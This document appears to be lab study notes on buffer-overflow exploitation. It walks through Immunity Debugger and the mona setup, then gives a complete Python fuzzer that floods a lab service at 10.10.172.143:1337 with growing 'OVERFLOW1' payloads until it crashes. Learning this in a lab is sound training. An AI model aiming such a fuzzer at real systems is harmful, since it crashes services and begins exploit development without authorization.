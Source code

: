 # Buffer overflows

## Immunity Debugger

1. start as administrator
2. Either open file or go o File>Attach to select process
3. Run Program (F9)
4. Step Into (F7)
5. Execute till return (Ctrl+F9)
6. You need to insert the code to crash the application into an input field like username or password
7. Remember that after each crash of the application you might need to start/restart the application

## Mona configuration



The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:\


```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

If you not know the listening port of the vulnerable application

1. You can use Wireshark/Burp to find the http connection details.
2. Find the process and the port it is listening on to attach it to Immunity debugger. - (netstat -a -b)

Create a file on your Kali box called fuzzer.py with the following contents:

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.172.143"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

